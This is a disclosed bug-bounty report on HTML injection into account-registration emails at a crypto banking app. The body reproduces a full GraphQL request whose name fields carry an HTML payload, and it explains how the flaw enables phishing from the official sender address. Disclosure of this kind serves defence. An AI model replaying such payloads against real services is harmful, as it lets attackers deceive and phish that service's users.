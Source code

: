 # HTML injection in email content

## Report Details
- **Report ID**: 786976
- **URL**: https://hackerone.com/reports/786976
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-01-31T17:12:29.088Z
- **Disclosed**: 2020-08-14T20:01:53.588Z

## Reporter
- **Username**: lamscun
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nuri

## Vulnerability Information
## Summary:
Hi,

I just found an issue when register account in https://app.bitwala.com/onboarding/preliminary. It allow hacker injection malicious text include html code in email content.
## Steps To Reproduce:
Make request register below with **payload html** in ==firstName== and ==lastName== parameter:

```
POST /graphql HTTP/1.1
Host: api.app.bitwala.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:72.0) Gecko/20100101 Firefox/72.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
content-type: application/json
Authorization: null
Origin: https://app.bitwala.com
Content-Length: 1188
Connection: close

{"operationName":"createIneligibleUser","variables":{"ineligibleUser":{"email":"dr.eamhope.aaa@gmail.com","firstName":"https://abc.comxxxxxxxxxxxxxxxxxxxxeeeeeeeeeeaaaaaaaaaaaaa%20%22<b>hello</b><h1>hacker</h1><a href='abc.com'>XXXX</a>abc.comxxxxxxxxxxxxxxxxxxxxeeeeeeeeeeaaaaaaaaaaaaacxcccc","lastName":"https://abc.comxxxxxxxxxxxxxxxxxxxxeeeeeeeeeeaaaaaaaaaaaaa%20%22<b>hello</b><h1>hacker</h1><a href='abc.com'>XXXX</a>abc.comxxxxxxxxxxxxxxxxxxxxeeeeeeeeeeaaaaaaaaaaaaacxcccc","addressCountry":"US","marketing":true,"locale":"en","token":"03AOLTBLRo4xtiJjci3-KF9cyHrmtCDjr-BORRjZT58NooOV6fkr4VLeRL2SqgVeXdX1NiJQCI6BHk97El0aKwJBuc9iUmtuxvZdvISyEZ4rYVgm3lEG8XxBBuhJzh0L_vUNBdbiOLGjoZyJgGf4R_Y6unX-dg7Wn4kjWDYkE25QIaGFNxS3YzDmp0e3GmN47UhZjpp14KIlfP9dpUqqleJytN2nJs068HfMjZM9d-7Etfv3YG0brkyVP_nMxXouKZARX9d1o7AXMGyykqDWVeB8e0iIuuFHpNkjEIqDVi6Af6Ch87fM5gXwDgr86PAzKyA-vrUZoahuhKhG71N-soh8gn_XsEiqCSGyS76ox20kr40diSu7Hh8Hzt_hKeZ_sMQd_yHqjpbBxkFO_jWSzkpcExmpBb4qHlFW_JrDNEi5gVXeGA3ZJ8CKk","identificationDocumentType":"DE:PASSPORT_ID_CARD"}},"query":"mutation createIneligibleUser($ineligibleUser: CreateIneligibleUserInput!) {\n  createIneligibleUser(ineligibleUser: $ineligibleUser)\n}\n"}
```
 
POC: {F702310}

## Impact

HTML injection, Phishing attacks
This vulnerability can lead to the reformatting/editing of emails from an official email address, which can be used in targeted phishing attacks.
This could lead to users being tricked into giving logins away to malicious attackers.

## Attachments
- html_injection_email.png
